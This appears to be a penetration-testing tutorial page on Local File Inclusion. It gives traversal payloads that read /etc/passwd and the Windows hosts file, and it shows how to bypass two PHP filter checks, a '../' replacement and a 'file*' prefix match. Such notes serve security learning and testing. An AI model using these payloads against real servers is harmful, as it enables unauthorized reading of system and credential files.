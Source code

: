 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Local File Inclusion

Also known as LFI, when an attacker can get a website to include a file that was not intended to be an option for this application.

Following we find a typical process for leveraging this vulnerability:

* Check if parameters in the URL receive the name of a file

{% code overflow="wrap" lineNumbers="true" %}
```bash
#It's searching for a file
http://$url/$query?$param=hola.php
#We can try to access the system files
http://$url/$query?$param=/etc/passwd
```
{% endcode %}

***

* When this doesn't work directly, we can try to get to the root folder

{% tabs %}
{% tab title="On Linux server" %}
{% code overflow="wrap" lineNumbers="true" %}
```bash
#We use ../ to get to the root directory
http://$url/$query?$param=../../../../../etc/passwd
```
{% endcode %}
{% endtab %}

{% tab title="On Windows server" %}
{% code overflow="wrap" lineNumbers="true" %}
```bash
#We use ../ to get to the root directory
http://$url/$query?$param=../../../../../../WINDOWS/system32/drivers/etc/hosts
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% hint style="info" %}
It is useful to put as many `../` as possible to get to the root folder
{% endhint %}

***

* Sometimes, we will need to check the page code to see the input conditions.

{% tabs %}
{% tab title="Case 1" %}
The code is searching for a file whose name starts with _file_

{% code title="Example source code" %}
```php
...
$file = str_replace( array( "../", "..\\" ), "", $file );
...
```
{% endcode %}

We can use the `\` to bypass this verification

```bash
http://$url/$query?$param=..\/..\/..\/..\/etc/passwd
```

Also if we use `..././` the code will do the replacement and leave us anyway with `../`, and we will also bypass this verification

```bash
http://$url/$query?$param=..././..././..././..././etc/passwd
```
{% endtab %}

{% tab title="Case 2" %}
The code is searching for a file whose name starts with _file_

{% code title="Example source code" overflow="wrap" lineNumbers="true" %}
```php
...
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
...
```
{% endcode %}

We can set our input to start with _file_ to bypass this verification

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/$query?$param=file/../../../../etc/passwd
```
{% endcode %}
{% endtab %}
{% endtabs %}
